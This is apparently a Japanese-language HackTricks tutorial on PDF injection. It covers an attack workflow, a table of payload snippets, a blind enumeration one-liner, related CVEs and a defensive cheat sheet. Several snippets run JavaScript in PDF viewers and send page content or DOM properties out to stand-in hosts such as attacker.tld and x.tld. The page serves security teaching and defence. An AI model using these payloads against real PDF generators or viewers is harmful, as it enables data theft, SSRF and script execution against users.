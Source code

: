 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**PDFファイル内に入力が反映されている場合、JavaScriptを実行したり、SSRFを行ったり、PDFコンテンツを盗むためにPDFデータを注入することができます。**
PDF構文は非常に寛容です – 入力を埋め込んでいる文字列や辞書から抜け出すことができれば、Acrobat/Chromeが喜んで解析するまったく新しいオブジェクト（または同じオブジェクト内の新しいキー）を追加できます。
2024年以降、バグバウンティレポートの波が、*エスケープされていない1つの括弧またはバックスラッシュで完全なスクリプト実行が可能である*ことを示しています。

## TL;DR – 現代の攻撃ワークフロー (2024)
1. 生成されたPDF内の**(括弧文字列)**、`/URI ( … )`または`/JS ( … )`フィールドに最終的に入るユーザー制御値を見つけます。
2. `) `（文字列を閉じる）を注入し、以下のプリミティブの1つを続け、構文を有効に保つために別の開き括弧で終わります。
3. 悪意のあるPDFを被害者に配信します（または自動的にファイルをレンダリングするバックエンドサービスに – ブラインドバグに最適です）。
4. あなたのペイロードはPDFビューアで実行されます：
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (CVE-2024-4367を参照)
* Acrobat → 完全なJavaScript API（`this.getPageNthWord`を使用して任意のファイル内容を抽出可能）

Example (annotation link hijack):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*最初の `)` は元のURI文字列を閉じ、次にユーザーがリンクをクリックしたときにAcrobatが実行する新しい**Action**辞書を追加します。*

## 有用なインジェクションプリミティブ
| 目標 | ペイロードスニペット | ノート |
|------|-----------------|-------|
| **オープン時のJavaScript** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | ドキュメントが開かれたときに即座に実行されます（Acrobatでは動作しますが、Chromeでは動作しません）。 |
| **リンク時のJavaScript** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | `/Link` アノテーションを制御している場合、PDFiumとAcrobatで動作します。 |
| **ブラインドデータ流出** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | JS内で `this.getPageNthWord` と組み合わせてコンテンツを盗むことができます。 |
| **サーバーサイドSSRF** | 上記と同じですが、内部URLをターゲットにします – PDFが `/URI` を尊重するバックオフィスサービスによってレンダリングされるときに便利です。 |
| **新しいオブジェクトのための改行** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | ライブラリが改行文字のインジェクションを許可する場合、まったく新しいオブジェクトを作成できます。 |

## ブラインド列挙トリック
Gareth Heyes (PortSwigger) は、未知のドキュメント内のすべてのオブジェクトを列挙するワンライナーを公開しました – 生成されたPDFが見えないときに便利です：
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
コードはAcrobat DOMを反復処理し、すべてのプロパティ/値ペアに対して外部リクエストを行い、ファイルの*JSON-ish*ダンプを提供します。完全な技術については、ホワイトペーパー「Portable Data **ex**Filtration」を参照してください。

## 実世界のバグ (2023-2025)
* **CVE-2024-4367** – FirefoxのPDF.js 4.2.67以前での任意のJavaScript実行が、作成された`/JavaScript`アクションでサンドボックスをバイパスしました。
* **バグバウンティ 2024-05** – 大手フィンテックが顧客提供の請求書ノートを`/URI`に許可し、`file:///` URIを使用して内部メタデータホストへのSSRFを示した後、報告に対して$10kが支払われました。
* **CVE-2023-26155** – サニタイズされていないPDFパスを介した`node-qpdf`コマンドインジェクションは、PDFレイヤーの前にバックスラッシュと括弧をエスケープする重要性を示しています。

## 防御のチートシート
1. **生のユーザー入力を`(`…`)`文字列や名前の中で連結しないでください。** PDF仕様の§7.3に従って必要に応じて`\`、`(`、`)`をエスケープするか、16進数文字列`<...>`を使用してください。
2. リンクを構築する場合は、完全にURLエンコードされた`/URI (https://…)`を優先し、クライアントビューアで`javascript:`スキームをブロックしてください。
3. PDFを後処理する際に`/OpenAction`、`/AA`（追加アクション）、`/Launch`、`/SubmitForm`、および`/ImportData`辞書を削除または検証してください。
4. サーバー側では、JavaScriptと外部アクションを削除する*ヘッドレスコンバータ*（例：qpdf –decrypt –linearize）を使用して信頼できないPDFをレンダリングしてください。
5. PDFビューアを最新の状態に保ってください。PDF.js < 4.2.67および2024年7月以前のAcrobat Readerは、簡単なコード実行を許可します。

## 参考文献
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (更新日: 2024年5月). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (2024年4月). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
